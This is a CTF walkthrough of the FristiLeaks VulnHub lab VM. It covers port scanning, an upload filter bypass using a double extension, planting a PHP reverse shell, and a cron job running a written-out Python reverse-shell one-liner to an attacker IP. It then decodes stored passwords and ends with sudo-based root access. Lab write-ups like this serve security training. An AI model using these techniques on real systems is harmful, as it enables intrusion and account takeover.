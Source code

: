 ```yaml
---
layout: single
title: FristiLeaks CTF Walkthrough
date: 2017-07-29
categories:
  - security
  - ctf
  - walkthrough
tags:
  - fristileaks
  - vulnhub
---
```

[FristiLeaks](https://www.vulnhub.com/entry/fristileaks-13,133/) is a VM created by Ar0xA and has a difficulty rating of "basic". The goal is to get root access and read the flag file.

## Web Server Enumeration

Running Nmap (`nmap -p- -sS -sV -vv 10.2.0.104`) over the VM revealed that the only common port that was open, was port 80, which it identified as running Apache on CentOS:

```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
```

A quick look at the `robots.txt` file reveals three directories, `/cola`. `/sisi` and `/beer`. Each one of these directories led to the same message delivered by [Obi-Wan](https://en.wikipedia.org/wiki/Obi-Wan_Kenobi)...

![3037440](/content/images/2017/07/3037440.jpg)

As the directory names all appeared to be names of drinks, I navigated to `/fristi` and found a login area.

## Login Area Analysis
The source code of the login area contained a comment in the markup which contained a base64 string, which when decoded produces an image containing the string `keKkeKKeKKeKkEkkEk`. I tried using this as a password with the user names `admin` and `fristi`, but neither worked.

Next, I ran dirb in the `/fristi` directory, which found an `uploads` directory and a file named `upload.php`.

Accessing `/fristi/upload.php` redirected me back to the login page, but analysing the response from the server in Burp showed that the redirect is placed after the markup generation, which allowed me to view the markup for the upload form:

```xml
<html>
<body>
<form action="do_upload.php" method="post" enctype="multipart/form-data">
    Select image to upload:<br>
    <input type ="file" name="fileToUpload" id="fileToUpload">
    <input type="submit" value="Upload Image" name="submit">
</form>
</body>
</html>
```

Uploading a PHP file using a local copy of this markup returned a message indicating only PNG, JPG and GIF files are accepted, which suggested that `do_upload.php` is vulnerable to an unauthenticated upload.

Using Burp, I re-sent the previous request containing the PHP file, but changed the file name to `test.php.gif` and set the content type to `image/gif`, which allowed the file to be uploaded.

To verify it had been uploaded, I navigated to `http://10.2.0.104/fristi/uploads/test.php.gif` and found that the PHP executed, rather than serving the file as an image.

## Acquiring Low Privilege Shell
To acquire a low privilege shell, I created a listener by running `ncat -vv -n -l -p 5555` and used the unauthenticated upload vulnerability to upload the [pentestmonkey PHP reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

Once the connection was established, I [upgraded to a fully interactive TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/), verified which user the shell was running as (`apache`) and found that the home directory of `eezeepz` was readable and had a file named `notes.txt`, which contained the following:

```
Yo EZ,

I made it possible for you to do some automated checks,
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The
output goes to the file "cronresult" in /tmp/. It should
run every minute with my account privileges.

- Jerry
```

Some testing of the above resulted in an error being logged to the `cronresult` file, which read: `command did not start with /home/admin or /usr/bin`

As it was possible to use the binaries from within `/usr/bin`, I started another ncat listener on port 5556 and added the below line into the `runthis` file:

```shell_session
/usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.0.3",5556));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Once this was invoked by the cron job, it gave me a new shell as the `admin` user, which I then upgraded to an interactive TTY again.

## Admin User Shell
The first thing I checked with the admin shell was the `/home/admin` directory, which contained the binaries mentioned in the note that was previously found, as well as some additional text files and Python scripts:

```shell_session
[admin@localhost ~]$ ls -l
total 632
-rwxr-xr-x 1 admin     admin      45224 Nov 18  2015 cat
-rwxr-xr-x 1 admin     admin      48712 Nov 18  2015 chmod
-rw-r--r-- 1 admin     admin        737 Nov 18  2015 cronjob.py
-rw-r--r-- 1 admin     admin         21 Nov 18  2015 cryptedpass.txt
-rw-r--r-- 1 admin     admin        258 Nov 18  2015 cryptpass.py
-rwxr-xr-x 1 admin     admin      90544 Nov 18  2015 df
-rwxr-xr-x 1 admin     admin      24136 Nov 18  2015 echo
-rwxr-xr-x 1 admin     admin     163600 Nov 18  2015 egrep
-rwxr-xr-x 1 admin     admin     163600 Nov 18  2015 grep
-rwxr-xr-x 1 admin     admin      85304 Nov 18  2015 ps
-rw-r--r-- 1 fristigod fristigod     25 Nov 19  2015 whoisyourgodnow.txt
[admin@localhost ~]$
```

I made the assumption that the contents of `cryptedpass.txt` would have been encrypted using the `cryptpass.py` file, so proceeded to check that out:

```python
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
```

The script is taking the first argument passed to it, encoding it as base64, reversing the order of the characters and then encoding using ROT13.

In order to grab the plain text content of the `cryptedpass.txt` file, I created a new altered version of the script to decrypt it, i.e. decode it using ROT13, reverse the character order back and then base64 decode it:

```python
import base64,codecs,sys

def decodeString(str):
    base64string= codecs.decode(str, 'rot13')
    return base64.b64decode(base64string[::-1])

cryptoResult=decodeString(sys.argv[1])
print cryptoResult
```

Running the script on `cryptedpass.txt` revealed a password:

```shell_session
[admin@localhost ~]$ python decryptpass.py $(cat cryptedpass.txt )
thisisalsopw123
```

There was also a file named `whoisyourgodnow.txt` which was owned by the `fristigod` user, which seemed to be encrypted / encoded. The script successfully reversed this too, and revealed the password for the `fristigod` account:

```shell_session
[admin@localhost ~]$ python decryptpass.py $(cat whoisyourgodnow.txt)
LetThereBeFristi!
[admin@localhost ~]$ su fristigod
Password:
bash-4.1$ whoami
fristigod
```

## Fristigod User Shell
Again, the first thing I did was check the user's home directory, but there was nothing there this time. Next I ran `sudo -l`to see what sudo permissions `fristigod` had, and found the following:

```shell_session
User fristigod may run the following commands on this host:
    (fristi : ALL) /var/fristigod/.secret_admin_stuff/doCom
```

Running it with no arguments revealed that it expects an argument that it identifies as `terminal_command`, which sounded promising, so I passed `whoami` to it and found that it is executing everything in the context of `root`:

```shell_session
bash-4.1$ sudo -u fristi ./doCom
Usage: ./program_name terminal_command ...
bash-4.1$ sudo -u fristi ./doCom whoami
root
bash-4.1$
```

With this, I then started a new bash shell as root, and found the flag in the `/root` directory.

```shell_session
bash-4.1$ sudo -u fristi ./doCom /bin/bash
bash-4.1# whoami
root
bash-4.1# cat /root/fristileaks_secrets.txt
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]

I wonder if you beat it in the maximum 4 hours it's supposed to take!

Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)


Flag: Y0u_kn0w_y0u_l0ve_fr1st1
```
